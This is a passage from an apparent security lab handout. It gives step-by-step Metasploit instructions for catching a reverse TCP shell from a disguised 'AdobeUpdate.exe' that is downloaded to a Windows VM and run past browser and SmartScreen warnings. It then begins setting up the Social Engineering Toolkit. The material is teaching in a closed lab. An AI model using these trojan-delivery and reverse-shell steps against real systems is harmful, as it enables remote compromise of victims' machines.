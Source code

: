         http://[IP of your Kali VM]:8888/

    Verify that you can view the contents of /tmp on your Kali VM.

10.	On Kali, open a new terminal window (besides the one that is running the Python webserver), and enter `msfconsole`.
11.	Enter `use exploit/multi/handler`. Once you’ve switched to this exploit module, type `show info`. Note that this module “is a stub that provides all of the features of the Metasploit payload system to exploits that have been launched outside of the framework.” A stub adds additional functionality to other exploits.
12.	Enter `set PAYLOAD windows/shell/reverse_tcp`.
13.	Enter `set LHOST [IP of Kali VM]`.
14.	Enter `set LPORT 8080`.

    **Note:** Set the port to `8080` (the port your malicious executable will use to connect back to your Kali VM), not `8888` (the port of your Python web server on Kali).
    
15.	Enter `exploit -j`. The `-j` option jobifies the exploit, or runs it as a job in the background. You can see a list of jobs running in the background by using the command jobs.
16.	On your Windows 10 VM, in a web browser (**not Chrome, it's too safe**), download the `AdobeUpdate.exe` file from the Python webserver and run the executable. 
    * If you use Edge/IE browser, download it, click "view downloads", right-click AdobeUpdate.exe, select "Run anyway"
    * If a warning appears saying that Windows couldn’t access Windows SmartScreen, "more info", then click “Run anyway.” 
    * For the warning, “Do you want to allow this app from an unknown publisher…,” click “Yes.”
17.	On your Kali VM, you should see in your msfconsole that “Command shell session X opened),” where X is the number of the new session. Type:

        sessions -i [the number of the new session]

    This should open a shell on the Windows VM.
    
18.	Type `whoami` to see the privileges that you are running under. Note that these are the privileges of the user of your Windows 10 VM.
19.	Run the command `netstat -n` to see a listing of open connections on the Windows server. Note the “ESTABLISHED” connection from the Windows VM to your Kali VM.
20.	Return to msfconsole by typing `control + z`. Enter `y` to background the session.
21.	To close the session, type `sessions -k 1`.

# Part 2. Social Engineering Toolkit (SET)

In this section, you’ll use the Social Engineering Toolkit (SET) to craft social engineering attacks. 

## Setup

Get the latest version of SET by entering the following commands in the Kali terminal (note: this lab was written for SET v. 6.0.5). To obtain the latest version of SET, use these commands:

    cd /opt/
    git clone https://github.com/trustedsec/social-engineer-toolkit/  set/
    
**Note:** There is a space before the word `set/`
